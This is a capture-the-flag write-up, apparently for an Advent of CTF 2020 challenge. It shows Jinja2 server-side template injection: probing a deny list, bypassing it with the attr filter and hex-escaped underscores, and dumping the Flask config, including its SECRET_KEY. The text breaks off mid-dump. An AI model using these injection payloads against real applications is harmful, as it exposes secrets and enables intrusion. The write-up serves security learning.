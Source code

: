 ## Finding the vulnerability

The description makes a reference to [yesterday's challenge]({{% ref "writeups/adventofctf/2020/challenge_16.md" %}}) so we probably have to use the same concept.

Let's verify it by trying the following input: `{{7*7}}`. It returned `49` so we can continue with the next step.

## Exploit

Just like [yesterday's challenge]({{% ref "writeups/adventofctf/2020/challenge_16.md" %}}), we start by trying to get the config like so: `{{config.items()}}`. Sadly, we get an error message: "You entered an emoji that is on my deny list".

### Blacklist

As it turns out, this challenge has a blacklist on the input. Let's first test what is and what isn't allowed. We can do this by just trying some characters:

`{{7*7}}` -> `49`  
`{{7*'7'}}` -> deny list  
`{{7*"7"}}` -> `7777777`  
`{{7*"_"}}` -> deny list  
`{{7*"confi"}}` -> `conficonficonficonficonficonficonfi`  
`{{7*"config"}}` -> deny list  
`{{7*"."}}` -> deny list

Blacklist: `'`, `_`, `config`, `.`

### Getting the config

As "config" is blacklisted, we have to come up with another way to access it. Luckily there is a fairly straightforward way to get it as `config` is saved in `context`. And, in jinja2, `self` in a template refers to `context`. This means we can get it by reading `self.__dict__`.

We cannot do this directly however, as dots and underscores are blacklisted. Luckily, jinja2 has some [built-in filters](https://jinja.palletsprojects.com/en/master/templates/#builtin-filters) like `attr` that allow us to get attributes from a variable.

This works by piping a variable into a filter like so `{{self|attr("")}}`. This string passed to `attr` is the attribute we want. We can't just fill in `__dict__` however, because of the blacklist. But, because we pass the attribute as a string, we can use it's hexadecimal ASCII value like so: `\x5f`.

The resulting input is the following: `{{self|attr("\x5f\x5fdict\x5f\x5f")}}`.

```yml
{
    '_TemplateReference__context': <Context {
        'range': <class 'range'>,
        'dict': <class 'dict'>,
        'lipsum': <function generate_lorem_ipsum at 0x7f2a4eda4a70>,
        'cycler': <class 'jinja2.utils.Cycler'>,
        'joiner': <class 'jinja2.utils.Joiner'>,
        'namespace': <class 'jinja2.utils.Namespace'>,
        'url_for': <function url_for at 0x7f2a4dfc6ef0>,
        'get_flashed_messages': <function get_flashed_messages at 0x7f2a4dfcd0e0>,
        'config': <Config {
            'ENV': 'production',
            'DEBUG': False,
            'TESTING': False,
            'PROPAGATE_EXCEPTIONS': None,
            'PRESERVE_CONTEXT_ON_EXCEPTION': None,
            'SECRET_KEY': 'Leer alles over Software Security bij Arjen (follow @credmp) at https://www.novi.nl', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31),
            'USE_X_SENDFILE': False,
```